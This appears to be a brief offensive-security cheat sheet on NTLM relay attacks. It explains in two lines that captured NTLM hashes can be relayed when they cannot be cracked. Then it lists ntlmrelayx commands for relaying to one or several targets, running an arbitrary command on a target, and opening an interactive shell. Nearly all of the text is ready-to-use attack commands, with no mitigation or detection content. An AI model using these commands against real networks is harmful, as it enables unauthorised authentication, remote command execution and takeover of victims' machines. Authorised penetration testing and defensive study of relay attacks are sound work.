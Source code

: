 Intercept a NTLM hash (like Responder) and relay it to another machine/service.

This is particularly useful when hashes cannot be cracked.

### Relay to a single target
```bash
ntlmrelayx -smb2support -t "$TARGET"
```

### Relay to multiple targets

```bash
ntlmrelayx -smb2support -ts "$TARGETS_FILE"
```

### Execute a command on target

```bash
ntlmrelayx -smb2support -t "$TARGET" -c "$COMMAND"
```

### Open a bind shell

```bash
ntlmrelayx -smb2support -t "$TARGET" -i
```